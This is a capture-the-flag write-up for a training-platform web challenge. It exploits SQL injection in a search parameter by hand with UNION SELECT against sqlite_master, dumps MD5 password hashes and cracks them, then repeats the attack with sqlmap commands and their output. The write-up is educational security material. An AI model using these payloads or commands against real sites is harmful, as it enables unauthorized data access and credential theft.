










# sql map1 — Medium

> **Category:** Web Exploitation
> **Difficulty:** Medium
> **Flag:** `academy{F0uNd_s3cr3T_K3y_f0R_w3_<>}`

## Challenge Overview

"Fort Knox" is a login-gated flag search app: register, log in, and search
a `flags` table through `vuln.php`. The search endpoint is vulnerable to
**SQL injection** on the `q` parameter, letting an authenticated user break
out of the intended query entirely. The database itself is riddled with
decoy data specifically designed to punish anyone who dumps everything and
declares victory the moment they see something shaped like `academy{...}`.

This writeup covers both the **manual** approach (understanding the
injection by hand) and the **automated** approach with `sqlmap`, since
doing the manual version first is exactly what makes the automated version
fast and reliable.

## TL;DR

`vuln.php?q=...` builds a raw SQL query out of unescaped user input.
Breaking out with a single `'` confirms the injection and leaks a table
full of decoy flags. Enumerating the database's own schema
(`sqlite_master`) reveals a `users` table holding MD5-hashed passwords.
Cracking those hashes with a wordlist works for two accounts —
**`ctf-player`** and `hazelnut` — logging in as `ctf-player` (password: `dyesebel`) reveals the
genuine flag on a "Protected area" page.

## Part 1 — Manual Exploitation

### 1. Register and log in



The app requires an account before `vuln.php` is reachable at all.

### 2. Inspect requests with Burp Suite



```
GET /vuln.php?q=anything&PHPSESSID=fb36f43ea26379df339df7a729ee7fbc HTTP/1.1
Host: xebec.cylabacademy.net:22562
...
Cookie: PHPSESSID=fb36f43ea26379df339df7a729ee7fbc
```

This confirms the search term is passed as a plain `q` GET parameter, and
that the session is tracked via `PHPSESSID` — useful to know since any
tool or script we use afterward needs to send this same cookie to stay
authenticated.

### 3. Test for SQL injection

Trying the classic single-quote-plus-comment payload:
```
q=' --
```

...doesn't error out — instead, it returns a pile of unrelated "flags"
that were clearly never meant to be part of a normal search result:



```
flag1: academy{n0T_F0uNd_s3cr3T_K3y_34rd76s1}
flag2: academy{n0T_F0uNd_s3cr3T_k3Y_c5d243edq}
flag3: academy{i5_tH15_s3cr3T_k3Y_5tbax3er}
flag4: academy{tH15_lS_n0T_s3cr3T_k3Y_vbr1qa4...}
suspicious: academy{tH15_lS_n0T_f!@G_5rwdf731q}
flag6: academy{tH15_lS_n0T_f!@G_5rwdf731q}
```

**This is a trap, not the goal.** Read the leetspeak: "not found secret
key," "is this secret key," "this is not flag" — these are deliberately
seeded decoys designed to catch anyone who stops searching the moment they
see something `academy{...}`-shaped. Confirming the injection works is
the real win here, not this specific output.

### 4. Confirm the DBMS with a boolean test

Comparing `' OR '1'='1` against `' OR '1'='2` (a classic true-vs-false
boolean test) and a broken `ORDER BY` both trigger the same revealing
crash:

```
Warning: SQLite3::query(): Unable to prepare statement: 1, near "1": syntax error
in /var/www/html/vuln.php on line 39

Fatal error: Uncaught Error: Call to a member function fetchArray() on bool
in /var/www/html/vuln.php:40
```

Two things this tells us immediately:
- **The DBMS is SQLite** (`SQLite3::query()`), not MySQL/Postgres — this
  changes the syntax we use going forward (`sqlite_master` instead of
  `information_schema`, `--` instead of `#` for comments).
- **The app never checks if the query failed** before using its result
  (`$result->fetchArray()` is called even when `$result` is `false`).
  This turns every malformed payload into a free syntax-error message,
  which we can use as a debugging oracle.

A follow-up `' ORDER BY 3--` confirms the exact column count:
```
1st ORDER BY term out of range - should be between 1 and 2
```
→ the query selects exactly **2 columns**.

### 5. Enumerate the database schema

With the column count known, `UNION SELECT` lets us ask our own question
alongside the broken one. SQLite keeps a built-in table of its own schema
called `sqlite_master`:

```sql
' UNION SELECT name, sql FROM sqlite_master WHERE type='table'--
```

This reveals the entire database structure in one shot:

```sql
CREATE TABLE flags (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    key TEXT NOT NULL UNIQUE,
    value TEXT NOT NULL
)

CREATE TABLE users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT NOT NULL UNIQUE,
    password TEXT NOT NULL
)
```

Only two real tables — no hidden third table linking flags to specific
users. The real flag, whatever it is, is either sitting among the `flags`
decoys, or the actual goal is somewhere else entirely (spoiler: it's the
`users` table that matters here).

### 6. Dump the users table

```sql
' UNION SELECT username, password FROM users--
```

```
admin:      5a9a79d9fa477ed163b89088681672c9
ctf-player: 7a67ab5872843b22b5e14511867c4e43
ghost:      8d2379c40704bed972e55680be2355e2
hazelnut:   0381d0604e218c33afd52bc9e26006c3
malicious:  a669d60c31ad3d05b9e453c8576c7aab
noaccess:   83806b490e28a7f8e6662646cbdbff1a
suspicious: eb1f3ba6901c65d9b2e09a38f560758b
```

(The `flags` decoy rows also show up mixed into this same result set,
since `UNION` combines both queries' output — worth filtering those out
mentally and focusing on the genuinely new usernames/hashes.)

### 7. Crack the hashes

These are 32-character hex strings — MD5. Feeding `ctf-player`'s hash
into [CrackStation](https://crackstation.net/) gets an instant hit:



```
7a67ab5872843b22b5e14511867c4e43 → dyesebel
```

### 8. Log in with the cracked credentials

Using `ctf-player` / `dyesebel` to log in through the normal login form
(not through injection) redirects to a genuine success page:



```
Protected area
Logged in as: ctf-player
The challenge flag is:
academy{F0uNd_s3cr3T_K3y_f0R_w3_<>}
```
## Part 2 — The Same Attack, Automated with `sqlmap`

Doing this by hand first is what makes automating it afterward fast and
precise — `sqlmap` works best when you already know what to tell it,
rather than letting it blindly discover everything from scratch.

### 1. Grab the session cookie from Burp



```
GET /vuln.php HTTP/1.1
Host: xebec.cylabacademy.net:26315
Cookie: PHPSESSID=41e2fb34d5cfed08125c6b63b6d29330
```

### 2. First pass — let sqlmap discover the injection on its own

```bash
sqlmap -u "http://xebec.cylabacademy.net:26315/vuln.php?q=test" \
  --cookie="PHPSESSID=41e2fb34d5cfed08125c6b63b6d29330" \
  --batch
```

- `q=test` gives `sqlmap` a real, non-empty value to build test payloads
  around — an empty parameter gives it nothing to work with.
- `--batch` auto-accepts every default prompt so it runs unattended.
- No `--dump`, `--technique`, or `--dbms` yet — this pass is purely about
  discovery.

```
Parameter: q (GET)
    Type: boolean-based blind
    Type: time-based blind
[INFO] the back-end DBMS is SQLite
```



### 3. Force the faster UNION technique and list tables

Since we already know `UNION SELECT` with 2 columns works, skip straight
to it instead of relying on slower blind extraction:

```bash
sqlmap -u "http://xebec.cylabacademy.net:26315/vuln.php?q=test" \
  --cookie="PHPSESSID=41e2fb34d5cfed08125c6b63b6d29330" \
  --batch --technique=U --union-cols=2 --tables
```

```
[3 tables]
+-----------------+
| flags           |
| sqlite_sequence |
| users           |
+-----------------+
```



### 4. Confirm the columns

```bash
sqlmap -u "http://xebec.cylabacademy.net:26315/vuln.php?q=test" \
  --cookie="PHPSESSID=41e2fb34d5cfed08125c6b63b6d29330" \
  --batch --technique=U --union-cols=2 -T users --columns
```

```
[3 columns]
+----------+---------+
| id       | INTEGER |
| password | TEXT    |
| username | TEXT    |
+----------+---------+
```



### 5. Dump and auto-crack in one step

```bash
sqlmap -u "http://xebec.cylabacademy.net:26315/vuln.php?q=test" \
  --cookie="PHPSESSID=41e2fb34d5cfed08125c6b63b6d29330" \
  --batch --technique=U --union-cols=2 -T users -C username,password --dump
```

`sqlmap` recognizes the MD5 format automatically and offers to
dictionary-crack the hashes as part of the dump itself:



```
[INFO] starting dictionary-based cracking (md5_generic_passwd)
[INFO] cracked password 'dyesebel' for user 'ctf-player'
[INFO] cracked password 'hazelnut' for user 'hazelnut'

username    | password
------------|--------------------------------------------------
ctf-player  | 7a67ab5872843b22b5e14511867c4e43 (dyesebel)
noaccess    | 83806b490e28a7f8e6662646cbdbff1a
suspicious  | eb1f3ba6901c65d9b2e09a38f560758b
malicious   | a669d60c31ad3d05b9e453c8576c7aab
ghost       | 8d2379c40704bed972e55680be2355e2
admin       | 5a9a79d9fa477ed163b89088681672c9
hazelnut    | 0381d0604e218c33afd52bc9e26006c3 (hazelnut)
```

## The Key Finding: `admin` Is a Deliberate Dead End

## Root Cause

**SQL Injection** via unsanitized input in `vuln.php`'s `q` parameter,
combined with unchecked query results (`fetchArray()` called without
verifying `query()` succeeded, turning malformed injection attempts into
verbose error messages that leak the DBMS type and query structure).

## Tools Used

- Burp Suite — inspecting requests and session cookies
- Manual SQL injection payload construction (SQLite-specific syntax)
- [CrackStation](https://crackstation.net/) — cracking MD5 hashes via
  precomputed lookup tables
- [`sqlmap`](https://sqlmap.org/) — automating discovery, enumeration,
  and dumping/cracking once the manual technique and column count were
  already known
